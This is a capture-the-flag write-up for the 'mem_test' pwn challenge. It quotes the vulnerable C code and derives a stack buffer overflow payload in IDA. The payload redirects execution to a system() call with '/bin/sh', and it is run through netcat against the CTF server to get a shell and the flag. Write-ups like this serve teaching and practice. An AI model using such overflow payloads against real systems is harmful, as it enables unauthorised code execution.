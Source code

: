 # mem_test
**Category:** Pwn

**Points:** 75

**Description:**
Author: kablaa

nc ctf.hackucf.org 9004

> **Files:** mem_test, mem_test.c, libpwnableharness32.so

## Write-up
When run, the program prints a header, then a random string, and then asks to see how good your memory is. If you enter the random string, it prints 'good job!!':
```
> nc ctf.hackucf.org 9004



------Test Your Memory!-------

YiUqxvyNCc
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> YiUqxvyNCc
good job!!


```
If you don't enter the string correctly, you get the 'sorry, your memory sucks' message:
```
nc ctf.hackucf.org 9004



------Test Your Memory!-------

zhULSZ2STl
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> hello
sorry, your memory sucks

```
C code was provided. In it there was a `handle_connection()` function, so I started there:
```c
void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";
	
	
	puts("\n\n\n------Test Your Memory!-------\n");
	
	srand(time(NULL));
	
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	
	printf("%s", random);
	mem_test(random);
}
```
This function creates the random string to test the user with, prints it out, and passes it to the `mem_test()` function, so we can take a look at that:
```c
const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```
Note that there is a global variable `hint` that is used by the `mem_test()` function, and this contains `/bin/sh`. Interesting.

Looking at the `mem_test()` function, it creates a `char` array (`buff`) of 11 bytes and sets them all to zero. We can now see that the address printed out after the 'mine is fine' message is the address of the `hint` variable.

It then prints out the messages and uses `scanf()` to get the user input and puts it in `buff`. This means we can overflow `buff` if we need to, as `scanf()` does no checking on the length of the input. We can see that `buff` is then compared to the original random string and an appropriate message printed.

In the code, there is one more function - `win_func()`:
```c
void win_func(char* y) {
	system(y);
}
```
This function takes a string and runs whatever is in that parameter. It looks like we need to call this function and pass it the address of the `hint` variable.

The only way I can see to call this function would be to overwrite the return address for the `mem_test()` function so it calls `win_func()` instead of returning to `handle_connection()`. To see how this can be done I ran the code in IDA, initially passing in 10 A characters so we can see the stack layout:
```
> python -c "print('A'*10)" > input.txt
```
We can now use `input.txt` to get the input into IDA.

If we look at the disassembly of part of the `handle_connection()` function, we can see that `mem_test()` is called at 0x0804885b:

![Call to mem_test()](mem_test_call.png)

This means the return address we are looking for on the stack is 0x08048860. Let's look at the stack just before the `scanf()` call:

![Stack with return address](return_address.png)

We can see the return address on the stack at 0xff843a3c. Now lets step over the `scanf()` and we'll see where our input goes:

![Stack with input](input_stack.png)

The input is placed on the stack at 0xff843a25 (I've missed highlighting a few in the image). There are our 10 A characters and the null terminator. To affect the return address, we're going to have to add another 13 A characters (to eat up the null terminator and then 12 bytes on the next line), and then put the address we want to jump to. Looking at the code, the function we want to call is at 0x08048866:

![Win_func() location](win_func_location.png)

So now we can change our `input.txt` file to try to change the return address and jump into the `win_func()` function:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08')" > input.txt

This time, we can see the original return address at 0xffa3ac4c:

![Stack with return address](return_address2.png)

Once we write our input to the stack the return address has changed to the `win_func()` location:

![Stack with win_func address](stack_with_win_func.png)

When stepping on through the code, this does get us into the `win_func()` function! Now we need to work out how to pass the address of `hint` to this function call.

The stack for a `call` is organised as follows:
|Stack frame |
|------------|
|Address of function to call   |
|Return address after call|
|Argument1 address|
|Argument2 address|

So we need to set up the stack like that for our call to `win_func()`. We can set the return address to the original return address we've overwritten, and the argument can be the address of `hint`. Therefore our stack should be:
| Stack frame | Description |
|-------------|-------------|
|AAAAAAAA...| Overflowed buffer|
|0x08048866 | Overwritten return address - now points to `win_func()`|
|0x08048860 | Original return address set as return address for our call|
|0x08048980 | Address of `hint`|

Therefore, we now set up our `input.txt` file to be:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt

> Note also: Even though I set the stack so that the old return address was set as the return address for our call, the program will still segment as the stack  won't be set up completely correctly

I tested our final payload in IDA. The final stack looked correct - after the A characters was the address of the `win_func()`, followed by the address to return to in `handle_connection()`, and then the address of the `hint` variable:

![Final stack](final_stack.png)

Lets try this on the server now:
```
> (python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004



------Test Your Memory!-------

uYPRJUjxBq
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> sorry, your memory sucks

ls
flag.txt
mem_test
cat flag.txt
flag{<flag was here>}
^C
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: (python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004

> Note also: We need to use `(python ... ; cat)` otherwise you don't get chance to interact with the shell before the program segments

This worked and gave me the flag.





